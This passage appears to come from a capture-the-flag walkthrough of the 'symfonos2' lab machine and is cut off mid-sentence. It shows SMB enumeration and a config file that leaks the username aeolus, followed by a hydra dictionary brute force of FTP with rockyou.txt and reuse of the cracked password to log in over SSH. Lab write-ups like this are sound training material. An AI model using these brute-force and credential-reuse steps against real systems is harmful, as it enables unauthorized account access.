 Download the file log.txt:

```
smb: \backups\> ls
  .                                   D        0  Thu Jul 18 10:25:17 2019
  ..                                  D        0  Thu Jul 18 10:30:09 2019
  log.txt                             N    11394  Thu Jul 18 10:25:16 2019

		19728000 blocks of size 1024. 16312448 blocks available
smb: \backups\> get log.txt 
getting file \backups\log.txt of size 11394 as log.txt (741.8 KiloBytes/sec) (average 741.8 KiloBytes/sec)
smb: \backups\> 
```

In log.txt we find a user:

```
# Set the user and group under which the server will run.
User				aeolus
Group				aeolus
```

*   Try to get the users credentials
*   Thought there was something on FTP, so tried to get the user's password for FTP:

```
crazyeights@es-base:~$ hydra -l aeolus -P lists/rockyou.txt ftp://192.168.56.133

[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.56.133:21/
[21][ftp] host: 192.168.56.133   login: aeolus   password: sergioteamo
1 of 1 target successfully completed, 1 valid password found

crazyeights@es-base:~$ 
```

*   Nothing extra in ftp
*   The found password is the users password for SSH as well

### User:

Login as aeolus:

```
crazyeights@es-base:~$ ssh aeolus@192.168.56.133
```

The user has nothing interesting in their home folder:

```
aeolus@symfonos2:~$ ls
share
aeolus@symfonos2:~$ 
```

In the log.txt file found earlier there is the following line, if we can find it we can crack user passswords:
